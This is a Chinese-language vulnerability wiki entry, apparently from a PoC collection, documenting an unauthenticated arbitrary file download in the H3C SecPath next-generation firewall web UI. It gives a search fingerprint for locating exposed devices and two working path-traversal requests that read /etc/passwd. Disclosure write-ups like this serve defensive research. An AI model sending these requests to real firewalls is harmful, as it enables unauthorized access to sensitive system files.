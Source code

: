 # H3C SecPath下一代防火墙 sys_dia_data_check 任意文件下载漏洞

## 漏洞描述

H3C SecPath 下一代防火墙  存在功能点导致任意文件下载漏洞，攻击者通过漏洞可以获取敏感信息

## 漏洞影响

<a-checkbox checked>H3C SecPath</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Web user login"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/image-20210604115315360.png)



存在漏洞点的功能有两个



![img](/assets/PeiQi-Wiki/img/image-20210604115351314.png)



点击下载抓包更改请求



![img](/assets/PeiQi-Wiki/img/image-20210604115431531.png)



并且在未身份验证的情况中，也可以请求下载敏感文件，验证POC

```plain
/webui/?g=sys_dia_data_check&file_name=../../etc/passwd

/webui/?
g=sys_capture_file_download&name=../../../../../../../../etc/passwd
```